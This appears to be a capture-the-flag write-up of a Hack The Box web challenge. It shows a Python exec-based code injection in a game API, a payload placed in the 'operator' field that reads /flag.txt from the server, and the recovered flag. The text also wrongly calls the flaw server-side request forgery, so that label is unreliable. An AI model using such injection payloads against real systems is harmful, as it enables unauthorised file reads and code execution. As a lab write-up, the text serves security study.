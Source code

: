 
## Target Information

- IP: `157.245.42.104:31254`
- Game application with public API at `http://157.245.42.104:31254/api/get_health`
  - Can interface with it via `curl`:
      ```shell
      curl -X POST -H "Content-Type: application/json" -d '{"attack_power":"90","current_health":"100","operator":"+"}' http://157.245.42.104:31254/api/get_health
      ```
- Running Docker

## Exploitation

- Opened the application in the Burp Suite proxy and sent a request to the API:

    ```json
    {
      "attack_power": "90",
      "current_health": "100",
      "operator": "+"
    }
    ```

    The response was:

    ```json
    {
      "message": "190"
    }
    ```

    This means that the API is vulnerable to a [server-side request forgery](https://portswigger.net/web-security/ssrf) attack.

    The following lines in `routes.py` show that the API is vulnerable:

    ```python
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    return response(result.get('result'))
    ```

- Attempted to use the API to access the flag on the Docker filesystem:

    ```json
    {
      "attack_power": "0",
      "current_health": "0",
      "operator": "+ int(''.join([str(ord(x)) for x in list(open('/flag.txt').read())])) +"
    }
    ```

    The response was:

    ```json
    {
      "message": 728466123994810051954911010651991164948110115955211451957111451971163333125
    }
    ```

    I converted this number from the Python `ord` positions of the flag to ASCII to get the flag:

    ```text
    HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}
    ```

## Final Thoughts

A complete write-up of this challenge can be found on [Medium](https://medium.com/meese-enterprises/walkthrough-hack-the-boo-2022-evaluation-deck-challenge-8933e0b4b168), please check it out and show your support by leaving some claps and sharing it with your friends!

The files for this challenge can be found in the [assets folder](./assets/hackthebox/HackTheBoo2022/EvaluationDeck/) if you would like to try it out for yourself.
